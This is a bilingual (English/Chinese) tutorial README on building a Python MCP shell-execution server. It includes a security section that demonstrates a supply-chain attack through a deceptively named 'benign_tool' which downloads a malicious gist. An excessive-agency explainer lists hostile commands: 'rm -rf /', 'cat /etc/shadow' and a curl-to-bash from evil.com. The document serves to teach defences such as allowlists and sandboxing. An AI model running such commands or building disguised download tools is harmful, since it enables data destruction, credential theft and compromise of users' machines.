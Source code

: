 # Build MCP Server

## Boilerplate Setup
*The boring stuff before implementing our MCP server*

1. Initialize project with UV
2. Create virtual environment with UV
3. Install dependencies (MCP\[CLI])
4. Index Official MCP Documentation with Cursor
5. Update Project with Cursor rules

```bash
uv init mcp-shell-server
cd mcp-shell-server
uv venv
.venv\Scripts\activate # Windows
uv add mcp[cli]
del main.py # Remove default main.py
echo. > server.py # Create new server.py

cursor .
```

### Setting Up Cursor

#### Add Documentations
- Indexing & Docs => Add Doc
    1. MCP => https://modelcontextprotocol.io/introduction
    2. MCP Python SDK => https://github.com/modelcontextprotocol/python-sdk

#### Add Rules for Python
- Rules => Add Rule, from Cursor Directory (https://cursor.directory/rules/python)
    1. md .cursor & cd .cursor
    2. md rules
    3. Create python.mdc file in .cursor/rules/

### Git Clone

```bash
git clone https://github.com/emarco177/mcp-crash-course.git

cd mcp-crash-course
uv sync
```

#### MCP Server - server.py

```note
I want you to implement me a simple MCP Server from @MCP . Use the python sdk @MCP Python SDK and the server should expose one tool which is called terminal tool which will allow user to run terminal commands, make it simple
```

```cmd
cd mcp-shell-server
uv run server.py

```

#### Resources in server.py

```note
I want you to help me expose a resource in my MCP server using the @MCP Python SDK. Please write the code to expose the file mcpPySdkREADME.md located in my D:\development\mcp-servers directory.
```

---

### **MCP & Security**

*Remote Code Execution (RCE), Supply Chain Attack*

1. Create Malicious gist.github.com file
2. Expose a tool that downloads the malicious file
3. Compromise MCP Client

```note
help me expose another tool in my mcp server. @MCP use the python sdk @MCP Python SDK

the tool is called "benign_tool" and should download via curl the content
@https://gist.githubusercontent.com/emarco177/47fac6debd88e1f8ad9ff6a1a33041a5/raw/9802cafba96ebeb010f3d080d948e7471987b081/hacked.txt and return what was downloaded
```

- Malicious code can be manipulated to execute arbitrary commands via MCP servers.

### **MCP Containers Advantages**

- Consistency across environments
- Isolation and safer execution
- Easy scaling and management

```note Dockerfile
Write a dockerfile to run this app in a container. I am using uv, checkout the docs:
@https://docs.astral.sh/uv/guides/integration/docker/#installing-uv

The way i am running the command is inside the virtual environment:
uv run server.py
```

- Copy Dockerfile from mcp-crash-course

```cmd
docker build -t mcp-shell-server .
docker run -it 
--rm mcp-shell-server
```

### Postman

```Setup Postman
docker run -i  --rm  --init  -e DOCKER_CONTAINER=true mcp-shell-server
```

### ✅ **什麼是 Excessive Agency / Permissive Tools？**

逐字翻譯：

* **Excessive Agency** → 「過度代理能力」
* **Permissive Tools** → 「過度寬鬆的工具」

意思是：

> **系統或 Agent（如 MCP Server）暴露出太多權限或功能，允許使用者執行本不該由外部操控的危險操作。**

例如：

* 執行任何 Shell 指令 →

  ```
  rm -rf /
  ```
* 讀取機密檔案 →

  ```
  cat /etc/shadow
  ```
* 從任意 URL 下載程式並執行 →

  ```
  curl http://evil.com/malware.sh | bash
  ```
* 存取內部網路 (SSRF)

---

#### ✅ 正確做法

你應該：

* 限制能執行的命令
* 定義安全的參數範圍
* 驗證輸入

✅ 安全版本：

```python
def shell_tool(command):
    allowed_commands = ["whoami", "echo hello"]
    if command not in allowed_commands:
        return "Command not allowed."
    return check_output(command, shell=True)
```

---

## ✅ 與其他漏洞的差異

| 概念                       | 說明                        |
| ------------------------ | ------------------------- |
| Insecure Output Handling | 回傳機密資訊給外部（例如 Error Stack） |
| SSRF                     | 外部攻擊者誘使系統請求內部資源           |
| Model DoS                | 故意丟大請求癱瘓 AI 模型            |
| Excessive Agency         | 系統本身就允許執行危險操作             |

---

### ✅ 簡單定義

> **Excessive Agency / Permissive Tools = 系統給了外部太多能量，可以執行危險行為。**

是 AI 安全、API 安全中非常重要的問題。

---

### ✅ 總結

**Excessive Agency / Permissive Tools** 就是：

* 系統暴露過度強大的工具或 API
* 導致外部攻擊者可執行不該執行的操作
* 必須透過：

  * 白名單
  * 權限控管
  * 輸入驗證
  * 沙箱隔離

→ 才能防止這類漏洞。

---
